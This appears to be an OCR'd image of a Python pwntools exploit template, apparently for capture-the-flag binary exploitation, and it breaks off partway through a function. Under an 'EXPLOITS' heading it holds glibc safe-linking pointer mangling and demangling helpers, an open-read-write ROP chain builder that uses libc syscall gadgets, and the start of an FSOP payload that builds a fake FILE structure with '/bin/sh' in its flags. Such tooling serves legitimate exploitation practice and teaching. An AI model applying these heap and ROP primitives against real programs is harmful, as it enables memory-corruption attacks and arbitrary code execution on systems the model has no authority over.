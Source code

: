 ```python
            c
            '''.format(**locals())        
            attach(int(pid), gdbscript=gdbscript, sysroot=f"/proc/{pid}/root", exe='chall')
        else:
            attach(io, gdbscript=gdbscript)

s       = lambda data               :io.send(data)
sa      = lambda x, y               :io.sendafter(x, y)
sl      = lambda data               :io.sendline(data)
sla     = lambda x, y               :io.sendlineafter(x, y)
r       = lambda delims             :io.recv(delims)
ru      = lambda delims, drop=True  :io.recvuntil(delims, drop)
rl      = lambda                    :io.recvline()
uu32    = lambda data,num           :u32(io.recvuntil(data)[-num:].ljust(4,b'\x00'))
uu64    = lambda data,num           :u64(io.recvuntil(data)[-num:].ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{}: {}'.format(name, addr))
l64     = lambda                    :u64(io.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda                    :u32(io.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
ns      = lambda p, data            :next(p.search(data))
nsa     = lambda p, instr           :next(p.search(asm(instr, arch=p.arch)))


# =========================================================
#                         EXPLOITS
# =========================================================
# Heap Protection
def mangle(heap_addr, val):
    return (heap_addr >> 12) ^ val

def demangle(val):
    mask = 0xfff << 52
    while mask:
        v = val & mask
        val ^= (v >> 12)
        mask >>= 12
    return val

def orw(addr, path=None):
    rop = ROP(libc)
    syscall = rop.find_gadget(['syscall', 'ret'])[0]
    mov_rdi_rax = next(libc.search(asm("mov rdi, rax ; cmp rdx, rcx")))

    # Open
    rop.rax = constants.SYS_open
    rop.call(syscall, [addr, 0])
    rop.raw(mov_rdi_rax)

    #Read
    rop.rax = constants.SYS_read
    rop(rsi=addr, rdx=0x60)
    rop.raw(syscall)
    #Write
    rop.rax = constants.SYS_write
    rop.call(syscall, [1])
    return rop.chain()

# FSOP
def fsrop_context(fp=None, offset=0x48, rip=None, rsp=None, rbp=0x2, rdi=0, rsi=None, rdx=0x200, rbx=0x2, r8=0x2, r9=0x2, r12=0x2, r13=0x2, r14=0x2, r15=0x2):
    fp = fp if fp is not None else libc.sym["_IO_2_1_stdout_"]
    fs = IO_FILE_plus_struct()
    fs.flags = b"/bin/sh\0"
    fs._IO_read_ptr = 0x8
```